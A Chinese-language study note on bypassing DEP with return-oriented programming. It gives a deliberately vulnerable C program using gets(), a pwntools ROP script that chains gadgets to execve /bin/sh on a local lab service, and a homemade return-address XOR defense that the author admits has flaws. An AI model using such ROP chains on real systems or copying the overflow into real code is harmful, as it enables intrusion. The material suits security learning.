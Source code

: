#Buffer Overflow With DEP

我設計了一個有buffer overflow漏洞的程式，開啟保護**DEP（NX）**的保護

為了方便實作DEP的bypass，ASLR調整為1，不開啟canary跟PIE的保護

code：

```
//ROP.c
#include <stdlib.h>
#include <stdio.h>

void bof(){
	int buf[50];
	gets(buf);
	return;
}

int main(){
	bof();
	return 0;
}
```

DEP不允許區段的寫入跟執行權限同時開啟

所以stack上佈好shellcode也無法執行

但有人想到一種bypass的方式

---

###ROP

>找到程式中，可執行的片段（gadget），組合成shellcode

>gadgets的最後一個指令是ret的話

>就可以持續串聯下一個gadget

利用ROPgadget這套工具可以快速建好gadgets，只是要想辦法組好shellcode而已

攻擊程式：

```
#ROP.py
from pwn import *

r = remote('0.0.0.0', 4000)	#qira

binsh1 = 0x6e69622f	#'/bin'
binsh2 = 0x68732f	#'/sh'

padding = 'a' * 204 + p32(binsh1) + p32(binsh2)	#overflow & set /bin/sh at ebp-4 & ebp

#gadgets
pop_a = 0x080b8fa6	#pop eax ; ret
pop_dcb = 0x0806f9f0	#pop edx ; pop ecx ; pop ebx ; ret
syscal = 0x0806d5a5	#int 0x80

payload = padding + p32(pop_a) + p32(0xb) + p32(pop_dcb) + p32(0) + p32(0) + p32(0xf6fff354) + p32(syscal)

r.sendline(payload)

r.interactive()

r.close()
```

程式流程從bof轉到gadgets造出來的shellcode：

![](./sc_gadgets.png)

>某天我想到一個娛樂性有點高的防禦方法

>可以擋下ROP這類的攻擊，但是目前仍有一點缺陷...

===

#Defense ROP

其實，我一開始只是想讓他跳不到shellcode而已

為了完成這樣的目的，在程式流程剛進入callee時

我把gs段的0x14(就是32bits下的canary)跟ebp+4(return address)做XOR

然後放回去ebp+4

程式要返回caller之前，再取canary跟ebp+4做XOR，還原真正的return address

**如果ebp+4已經被竄改過**，他還是會和canary做XOR

這樣就跳不到attacker想要的位址了，感覺起來還不錯

code:（asm inline模擬版本）

```
//Defense.c
#include <stdlib.h>
#include <stdio.h>

void bof(){
	__asm__("mov %gs:0x14, %ecx\n\t"
		"xor 4(%ebp), %ecx\n\t"
		"mov %ecx, 4(%ebp)\n\t"
		"xor %ecx, %ecx");
	int buf[50];
	gets(buf);
	__asm__("mov %gs:0x14, %ecx\n\t"
		"xor 4(%ebp), %ecx\n\t"
                "mov %ecx, 4(%ebp)\n\t"
                "xor %ecx, %ecx");
	return;
}

int main(){
	bof();
	return 0;
}
```

再碰上ROP的時候，先看一下被overflower的return address

![](./Defense1.png)

然後再來看看他跟canary做XOR之後的樣子，就不知道跑去哪裡了

而且還因為是不合法的位址，程式終止了

![](./Defense2.png)

缺陷是stack被洩漏的話，attacker可以先調整好第一個gadget

**娛樂性**在於：我真的不知道他會跳去哪裡

如果他XOR做完的return address是合法的，我完全無法預測會發生什麼事XD

目前當機次數：1


暫時先寫這樣，再慢慢擴充好了
